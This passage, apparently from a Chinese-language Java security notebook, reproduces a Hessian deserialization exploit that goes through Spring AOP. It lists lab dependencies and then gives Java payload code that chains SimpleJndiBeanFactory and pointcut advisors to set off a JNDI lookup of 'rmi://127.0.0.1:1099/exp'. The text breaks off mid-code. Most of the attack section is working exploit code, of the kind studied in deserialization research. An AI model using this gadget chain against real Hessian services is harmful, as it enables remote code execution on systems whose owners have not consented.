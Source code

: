 ![image-20230313161049117](images/54.png)

# Spring AOP

## 环境搭建

下面两个的环境我就一起搭建了

```
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-aop</artifactId>
    <version>5.0.0.RELEASE</version>
</dependency>
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-context</artifactId>
    <version>4.1.3.RELEASE</version>
</dependency>
<dependency>
    <groupId>org.aspectj</groupId>
    <artifactId>aspectjweaver</artifactId>
    <version>1.6.10</version>
</dependency>
```

## 漏洞复现

```
package Unser.Hessians.SpringAop;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import org.springframework.aop.Pointcut;
import org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor;
import org.springframework.aop.support.DefaultPointcutAdvisor;
import org.springframework.jndi.support.SimpleJndiBeanFactory;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;

public class Payload {
    public static void main(String[] args) throws Exception{
        String name = "rmi://127.0.0.1:1099/exp";
        SimpleJndiBeanFactory simpleJndiBeanFactory = new SimpleJndiBeanFactory();
        simpleJndiBeanFactory.addShareableResource(name);
        AbstractBeanFactoryPointcutAdvisor abstractPointcutAdvisor = new AbstractBeanFactoryPointcutAdvisor() {
            @Override
            public Pointcut getPointcut() {
                return null;
            }
        };
        abstractPointcutAdvisor.setBeanFactory(simpleJndiBeanFactory);
        abstractPointcutAdvisor.setAdviceBeanName(name);
        DefaultPointcutAdvisor defaultPointcutAdvisor = new DefaultPointcutAdvisor();
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("aa",defaultPointcutAdvisor);
```